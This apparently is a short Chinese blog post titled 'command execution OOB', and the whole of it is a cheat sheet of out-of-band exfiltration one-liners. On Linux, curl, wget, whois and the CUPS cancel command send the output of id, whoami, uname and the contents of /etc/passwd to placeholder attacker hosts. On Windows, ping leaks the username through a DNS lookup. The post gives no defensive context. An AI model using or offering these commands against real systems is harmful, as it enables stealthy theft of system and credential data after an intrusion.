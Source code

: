 ```yaml
---
title: 命令执行OOB
author: 404tk
date: 2021-11-25
category: tricks
layout: post
---
```


### Linux

```shell
id|curl ip:port -F file=@-

curl http://xxx.xxx.xx/?id=`id`
```

```shell
wget ip:port --post-data "$(id)"
```

```shell
whois -h ip -p port "`whoami&uname -a`"
```

```shell
cancel -u "$(cat /etc/passwd)" -h ip:port
```

### Windows

```powershell
ping %USERNAME%.xxx.xx
```
